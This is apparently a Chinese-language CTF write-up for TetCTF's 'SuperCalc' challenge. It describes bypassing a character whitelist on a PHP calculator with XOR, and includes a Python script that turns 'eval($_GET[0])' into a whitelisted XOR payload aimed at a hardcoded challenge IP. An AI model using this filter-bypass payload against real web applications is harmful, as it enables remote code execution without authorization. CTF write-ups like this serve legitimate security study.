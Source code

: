 # TetCTF

## 1.SuperCalc

![image-20210110100316822](/Users/miewang/Library/Application Support/typora-user-images/image-20210110100316822.png)

可以看到只能用如上的符号拼出命令执行的操作 并且限定位数

![image-20210110100659380](/Users/miewang/Library/Application Support/typora-user-images/image-20210110100659380.png)

其实异或的拼凑很简单 我们直接写脚本就可以

但是70字符呢？

![image-20210110101034926](/Users/miewang/Library/Application Support/typora-user-images/image-20210110101034926.png)



当我曾经做ctfshow里面就有这么一道题，可以使用include 我们执行命令的方式是包含进一个全局get变量，所以如法炮制

能想到现在的重点是如何拼凑出$

想起来可以通过多重异或不断迭代即可

po出某位师傅写的很通用的脚本

```python
import urllib.parse

import readline
import requests


BASE_URL = 'http://139.180.155.171/?calc='

abc = "0123456789+-*/().~^|&"


def find_combination(char_target):
    for a in abc:
        for b in abc:
            for c in abc:
                char = ord(a) ^ ord(b) ^ ord(c)
                if char == ord(char_target):
                    return (a, b, c)
    return False


SHELL = 'eval($_GET[0])'

s1 = ''
s2 = ''
s3 = ''

for a in SHELL:
    c1, c2, c3 = find_combination(a)
    s1 += c1
    s2 += c2
    s3 += c3

shellcode = "'{}'^'{}'^'{}'".format(s1, s2, s3)

print("Shellcode length:", len(shellcode))


#cmd = 'var_dump(scandir("."));'
```